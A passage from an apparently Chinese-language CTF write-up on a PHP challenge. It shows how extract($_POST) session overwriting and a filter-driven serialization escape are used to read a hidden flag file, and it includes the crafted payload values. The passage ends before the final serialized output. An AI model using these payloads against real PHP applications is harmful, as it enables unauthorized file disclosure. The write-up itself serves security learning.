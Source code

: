 ```php
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

在`phpinfo`中找到了，`auto_append_file`说明自动在文件中执行该文件代码，说明要读取这个文件

![image-20231113180630471](./img/13-3.png)

 `extract($_POST)`就是将`post`的内容作为这个函数的参数。

然后就是变量覆盖。**如果`post`传参为`_SESSION[flag]=123`，那么`$_SESSION["user"]`和`$_SESSION["function"]`的值都会被覆盖**。

至于为什么`post`要传`_SESSION[flag]=123`而不是`$_SESSION[flag]=123`，是因为`_SESSION`是变量名，如果传`$_SESSION`，那么就会失效。

这样才会进行序列化

```php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
$_SESSION['img']=base64_encode('guest_img.png');
```

这里将下面的东西进行序列化

```php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'a';
$_SESSION['img'] = 'ZDBnM19mMWFnLnBocA==';//d0g3_f1ag.php base64编码
var_dump(serialize($_SESSION));
//得到
string(90) "a:3:{s:4:"user";s:5:"guest";s:8:"function";s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}"
```

将这里的user和function进行修改，然后这里会进行代码一开始的过滤，将变量$img中的php flag php5 php4 fl1g的字符串替换成’'空字符

```php
$_SESSION["user"] = 'flagflagflagflagflagflag';
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}';
$_SESSION['img'] = 'ZDBnM19mMWFnLnBocA=='; // d0g3_f1ag.php base64编码
序列化后
```

